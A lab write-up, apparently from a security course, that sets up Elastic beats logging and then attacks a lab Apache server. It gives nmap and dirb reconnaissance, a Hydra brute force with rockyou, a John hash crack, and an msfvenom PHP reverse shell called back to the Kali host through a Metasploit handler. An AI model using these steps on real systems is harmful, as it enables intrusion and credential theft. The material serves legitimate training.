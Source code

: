 # Project 2
## RedTeam vs. BlueTeam


### Devices
- Kali
- Capstone
- Elk 

### Set Up Beats 
Need to set up beats in order to log the attacks. 

Steps to set up:
 - Log into Capstone
   - ```vagrant:tnargav```
 - ```sudo su```
 - ```filebeat modules enable apache```
 - ```filebeat setup```
 - ```metricbeat modules enable apache```
 - ```metricbeat setup```
 - ```packetbeat setup```
 - ```systemctl restart filebeat```
 - ```systemdtl restart metricbeat```
 - ```systemctl restart packetbeat```
  

### Attacking Capstone
- Determine capstone ip
  - First find kali ip
    - ```ifconfig```
    - 192.168.1.90
  - Run nmap against 192.168.1.1/24 
    - ```nmap 192.168.1.1/24```
    - Did not give enough information to determine what machine is which
    - ![](Img/nmap1.png)
    - ```nmap -sV 192.168.1.1/24```
      - 192.168.1.100 
        - Elastic Search | Ubuntu
      - 192.168.1.105
        - Apache | Ubuntu
      - ![](Img/nmap2.png)
- Open http://192.168.1.105
  - Try to find "secret" page
    - ```dirb http://192.168.1.105```
      - Returned
        - http://192.168.1.105/server-status
          - Access Forbidden
        - http://192.168.1.105/webdav
          - Username:Password Protected
    - ```dirb http://192.168.1.105/company_folders```
      - Returned 0
    - Scrolled through pages
      - Error file missing please refer to company_folders/secret_folder
       ![](/Img/web4.png)
- Run Hydra against http://192.168.1.105/company_folders_secret_folder
  - Find Wordlist
    - ```locate rockyou```
  - ```cd /usr/share/wordlists```
  - ```ls```
  - ```gunzip rockyou.txt.gz```
  - ```ls```
    - to verify successful unzip
  - ```hydra help```
    - To see all avaliable flags
  - Ashton manages secret folder
    - Means username is ashton 
  - ``` hydra -l ashton -P rockyou.txt -s 80  -f -vV 192.168.1.105 http-get /company_folders/secret_folder ```
    - ```ashton:leopoldo```
     ![](/Img/hydra2.png)
- Open connect to corp server
  - webdav
  - log in with ryans account
  - ryan password hash ``` d7dad0a5cd7c8376eeb50d69b3ccd352 ```
  - ``` echo d7dad0a5cd7c8376eeb50d69b3ccd352 > hash.txt ```
  - ```john hash.txt```
  - ```john -show hash.txt ```
    - ```ryan:linux4u```
- Upload reverse php to webdav
  - ```msfvenom -p php/reverse_php LHOST=192.168.1.90 LPORT=4445 -f raw > exploit.php```
    ![](Img/msfvenom1.png)
- Create Listener
  - ```msf console```
    - ```use exploit multi/handler```
    - ``` set LHOST 192.168.1.90```
    - ``` set LPORT 4445```
    - ```set exploit php/reverse_php```
    - ```exploit```
     ![](Img/msfvenom2.png)
- Open exploit.php in web to run on remote server
- Meterpreter session
  - ```cd /```
  - ```ls```
  - ```cat flag.txt```
   ![](Img/flag.png)